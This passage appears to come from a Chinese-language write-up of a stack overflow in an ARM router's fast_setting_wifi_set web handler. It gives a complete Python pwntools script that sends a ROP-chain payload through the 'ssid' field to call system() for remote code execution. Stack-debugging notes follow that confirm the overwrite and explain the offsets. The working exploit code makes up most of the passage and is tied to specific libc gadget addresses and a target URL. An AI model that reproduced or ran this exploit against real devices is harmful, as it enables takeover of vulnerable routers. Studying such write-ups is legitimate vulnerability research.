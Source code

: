 - **r3**  
：通用寄存器，此处用于暂存   
system  
 函数地址。  
  
- **pc**  
：程序计数器，指向下一条要执行的指令地址。通过控制   
pc  
，可以劫持程序流。  
  
由此，完整的payload为：  
### 完整payload  
```
import requests
from pwn import *

cmd=b"echo success111"
libc_base = 0x3fd9c000
system = libc_base + 0x5A270
readable_addr = libc_base + 0x6415F
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298
payload = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload+= p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd
url = "http://192.168.50.18/goform/fast_setting_wifi_set"
cookie = {"Cookie":"password=12345"}
data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```  
  
执行脚本，成功实现rce  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgLgyznp7bA1ib4SSfTOrHKroIRefVgPImNH8iazJOJShmSlLiclRUuiaSibw/640?wx_fmt=png&from=appmsg "")  
  
程序有时候会抽风，需要点几下ctrl+c  
  
response = requests.post(url, cookies=cookie, data=data) 这个重复两次，是因为如果只发一次包，回来的东西不太对，不知道是啥问题  
  
通过堆栈查看，发现数据已经插入  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKg4GNnISR6HVEl2sjXE64ArSBzAtcTEoAHozeiaks8EPw3pN73rmHefxQ/640?wx_fmt=png&from=appmsg "")  
  
若是在0x67080 也就是strcpy传参处打断点，然后查看栈空间，我们可以看见，从r0(函数第一个传参处)0x408001e8 到寄存器0x40800248 都已经被"aaaa"覆盖，并且0x40800248地址也指向libc可读地址，0x3fe0015f = libc_base + 0x6415F = 0x3fd9c000 + 0x6415F = 0x3FE0015F ，与栈内是可以对应的上的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgcvKxRJtBKOcsuQSKWDXHkN0qMDMnicbx6WgoOibDfcmvUdfliaHInNlYg/640?wx_fmt=png&from=appmsg "")  
  
由于arm架构小端，所以每个寄存器占用4个字节，所以从0x40800248 +4 到0x40800264 进行字节占用补充("bbbb")，为0x20 - 8 = 24 字节 ；  
  
0x40800264 栈底开始进行rog链构造，对应的就是  
  
pop_r3 = libc_base + 0x18298 = 0x3fd9c000 + 0x18298 = 0x3FDB4298   
  